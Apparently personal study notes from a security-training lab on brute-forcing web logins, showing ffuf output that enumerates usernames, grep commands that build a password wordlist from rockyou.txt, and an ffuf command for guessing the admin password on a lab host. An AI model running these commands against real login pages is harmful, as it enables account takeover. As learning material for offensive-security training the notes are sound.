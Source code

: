 ```sh
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.249.53:30687
 :: Wordlist         : FUZZ: /home/Anchovy/Dictionaries/SecLists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=Academy_student!
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 3264
 :: Filter           : Regexp: Unknown user
________________________________________________

cookster                [Status: 200, Size: 3271, Words: 754, Lines: 103, Duration: 557ms]

```

## Brute-Forcing Passwords:
While a pas Brute-Forcing is not the focus of this module, passwords rmain one of the most common online auth methods, yet thaty are plagued with many issues, one prominint issues is pass resuses,
where individual use tha same pass across multiple accounts. This practice poses a significant security risk cause if one account is compromised, attackers can potentially  gain access, to other account
with the same credentials.
This enables an attacker who obtained a list of passs form a pass leak to try the sma pass on other web app. Another issues is weak pass based typical pharases, dictionary words, or simple patterns.
The most popular wordlist rockyou.txt contains 14 millions passwords:
```sh
wc -l Dictionaries/rockyou.txt
14344391 Dictionaries/rockyou.txt
grep '[[:upper:]]' Dictionaries/rockyou.txt  | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
grep: Dictionaries/rockyou.txt: binary file matches
wc -l custom_wordlist.txt
151647 custom_wordlist.txt
```
To start brute-forcing pass, we need a user or a list of users to target, Using the tech covered in the prv section, we determinate that admin us a username for a valid user, we'll attempt brute-forcing its password.
Intercept the post parameter and error message returned within the reponse.

Providing a incorrect user, the login response contains the message 'invalid user' we ca use this information to build ffuf command to brute force.
`ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"`
